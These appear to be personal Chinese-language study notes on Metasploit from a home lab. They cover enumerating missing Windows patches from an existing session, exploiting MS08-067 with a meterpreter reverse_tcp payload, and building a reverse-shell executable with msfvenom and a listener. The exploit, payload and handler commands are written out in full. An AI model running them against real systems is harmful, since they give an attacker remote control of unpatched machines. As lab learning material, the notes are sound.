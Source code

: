 msf信息收集--补丁查找

```
Windows缺少的补丁
– 基于已经获取到的session进行检测
– use post/windows/gather/enum_patches 
▪ show advanced
▪ set VERBOSE yes
– 检查失败
▪ Known bug in WMI query, try migrating to another process
▪ 迁移到另一个进程再次尝试（也就是进程注入migrating）
```

ms08_067在初次使用不成功以后，需要重启靶机电脑，因为它会打乱电脑的一些设置，导致后面再试的时候会不成功

**ms08_067   KB958644**

Windows缺少的补丁
– 基于已经获取到的session进行检测
– use post/windows/gather/enum_patches 
▪ show advanced
▪ set VERBOSE yes
– 检查失败
▪ Known bug in WMI query, try migrating to another process
▪ 迁移到另一个进程再次尝试（也就是进程注入migrating）


use exploit/windows/smb/ms08_067_netapi
set rhosts 192.168.88.131
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.88.130
run
(若有该漏洞，则会执行成功)
（注意到payload的使用位置了么）

因为没有机器，所以自己制作了一个peyload使用一下
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.88.130 lport=55555 -f exe -o /root/Desktop/leetest/123.exe

use exploit/multi/handler

set payload windows/x64/meterpreter_reverse_tcp

run -j -z

```
![093804844b494b1810107285bbe9caf9.png](25fad61d3b884dfb99b2b99dabcac1f0.png)


回到模块，继续进行

![7f9b2af956637b185b48c05c8a9730c4.png](4b35799ecdcf4673b830cbbca22deebf.png)

显示信息用提示的是因为缺少这些补丁，所以后面的那些ms也许可以利用



















